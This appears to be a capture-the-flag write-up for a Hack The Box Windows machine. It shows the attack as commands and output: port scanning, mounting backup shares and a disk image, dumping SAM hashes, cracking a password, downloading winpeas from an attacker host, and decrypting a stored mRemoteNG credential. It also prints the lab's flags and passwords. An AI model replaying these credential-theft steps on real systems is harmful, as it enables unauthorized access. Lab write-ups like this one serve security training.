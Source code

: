 # Enumeration
## Nmap
```bash
sudo nmap -sC -sV -oA nmap/Bastion 10.10.10.134

PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## SMB
can see the backups share, going to mount it.
```
sudo mount -t cifs //10.10.10.134/Backups /mnt/smb2
```

Windows image backup.

Looking at the vhd files. The larger one is a full windows install so going to mount that too.

# VHD
```
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

Going to pull the SAM and SYSTEM files in `/windows/system32/config` and run secretsdump

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

no psexec. :(

Hash cracks to bureaulampje so ssh time

# Shell as L4mpje
user.txt
```
670df9eecaf79a7ea5ec721e336f078b
```

Download winpeas.exe
```
wget http://10.10.14.21/winpeas.exe -o win.exe
```

While thats running checking for installed software shows that mRemoteNG is installed.

There is a python script decoder that can be used. The password will be in the config file.

grabbing the file `C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml` and grepping for the password we find this:
```
aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

Which decrypts to `thXLHM96BeKL0ER2`

so ssh and root.txt:
```
2e153553704688af16c1d4ff207d79b1
```